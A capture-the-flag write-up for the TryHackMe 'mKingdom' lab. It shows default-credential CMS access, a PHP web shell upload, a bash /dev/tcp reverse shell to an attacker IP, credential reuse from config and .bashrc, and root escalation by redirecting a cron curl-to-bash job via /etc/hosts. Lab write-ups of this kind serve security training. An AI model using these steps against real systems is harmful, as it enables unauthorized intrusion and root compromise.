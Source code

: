 ```yaml
---
title: mKingdom
description: 'Using default credentials to access the CMS, uploading a malicious PHP file to get RCE and escalating privileges using write access to /etc/hosts'
pubDate: 2024-06-28
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/5198d5eb4284a2eeffe5eea07094d45d.png'
---
```


Running Feroxbuser:
```bash
feroxbuster -u http://10.10.178.0:85
```

Eventually we find a CMS website:
```html
meta name="generator" content="concrete5 - 8.5.2"/>
```

## RCE
The login page is: http://10.10.178.0:85/app/castle/index.php/login

Guessing: admin/password

allow PHP file extension to be uploaded.
Upload a cmd.php file
RCE: http://10.10.178.0:85/app/castle/application/files/6917/1957/4907/cmd.php?cmd=id

```bash
bash -c 'bash -i >& /dev/tcp/10.8.119.137/4444 0>&1'
```

Post request to `cmd.php`:
```
cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.8.119.137/4444+0>%261'
```

## ENUM

```php
www-data@mkingdom:/var/www/html/app/castle/application/config$ cat database.php
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => 'toadisthebest',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
];
```

## USER

Password re-use:
```bash
su toad # <- toadisthebest
```

## USER 2

In toad's `.bashrc` there is a `PWD_token`:

```bash
cat ~/.bashrc
...[snip]...
export PWD_token='aWthVGVOVEFOdEVTCg=='
```

```bash
echo $PWD_token | base64 -d
ikaTeNTANtES

su mario # <-- ikaTeNTANtES
```
## READING MARIO's FILES

Switching back to `toad` and running:
```bash
chmod 0755 /bin/cat
```
Now we can read with the `mario` user in its home dir.

## ROOT

Running `pspy` we can see that there is a process running each minute:

```bash
2024/07/01 14:39:01 CMD: UID=0     PID=27832  | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
```
We can't edit `/var/www/html/app/castle/application/counter.sh` since its owned by root.

For some reason `mario` can edit `/etc/hosts` and since its requesting a script from host `mkingdom.thm` we can point it to our own machine.

Updating `/etc/hosts` with:
```
10.8.119.137    mkingdom.thm
```
Now every minute the host is requesting `counter.sh` from our machine and piping it into bash.

We can create a malicious `counter.sh` script (at `app/castle/application/counter.sh`) and this will be executed by the host as root.

```bash
sudo python3 -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
10.10.178.0 - - [01/Jul/2024 20:33:01] "GET /app/castle/application/counter.sh HTTP/1.1" 200 -
```

At the minute mark we get a callback and a shell as root:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.119.137] from (UNKNOWN) [10.10.178.0] 40440
bash: cannot set terminal process group (27734): Inappropriate ioctl for device
bash: no job control in this shell
root@mkingdom:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```
